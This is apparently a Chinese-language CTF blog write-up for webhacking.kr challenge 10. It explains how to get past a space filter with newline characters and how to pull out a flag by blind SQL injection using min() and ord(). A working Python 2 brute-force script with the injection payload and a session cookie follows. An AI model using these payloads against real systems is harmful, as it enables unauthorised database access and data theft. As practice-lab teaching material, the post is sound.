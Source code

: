 ```yaml
---
title: webhacking.kr challenge 10
author: rk700
layout: post
tags:
  - webhacking.kr
  - sql
---
```


这道题其实和web-09非常像。

进入页面，发现有提示，知道了column和表的名字。然后试了下直接把参数`no`取为查询语句，发现还是很多过滤了，而且最后发现似乎返回值只见到了0和1，估计还是盲注。

过滤的地方，主要是空格有问题，但如果把空格换为换行符`%0a`就可以了。

然后还用昨天的思路，但一直跑不出来……最后搜了答案。相比我的，主要是这次`flag`有两个，用我昨天做web-09时的那种对应关系被固定了。而用`min`或`max`就可以用特定的那一个。

另一处是昨天直接检查字符`in()`，不区分大小写导致最后暴力了一把；而用`ord()`先得到ascii码再检查就可以区分大小写了。

代码如下，我先试了`min(flag)`，中了

{% highlight python %}
#!/usr/bin/env python2

import httplib

def makePayload(statement):
    return "/challenge/web/web-10/index.php?no=if((select%%0aord(substr(min(flag),%d,1))from%%0aprob13password)in(%d),1,2)" % (statement[0], (statement[1]))

def checkResponse(response):
    return response.find("<td>1</td>") != -1

def doAssert(conn, header, statement):
    conn.request("GET", makePayload(statement), "", header)
    response = conn.getresponse()
    content = response.read()

    return checkResponse(content)

if __name__ == "__main__":
    url = "webhacking.kr"
    header = {"cookie":"PHPSESSID=oaka47lr0m69a85ghgfeqinup4"}
    conn = httplib.HTTPConnection(url)
    result = []
    for idx in range(1,21):
        print "idx %d" % idx
        for code in range(33,127):
            if doAssert(conn, header, (idx, code)):
                print code
                result.append(chr(code))
                break
    print ''.join(result)
{% endhighlight %}
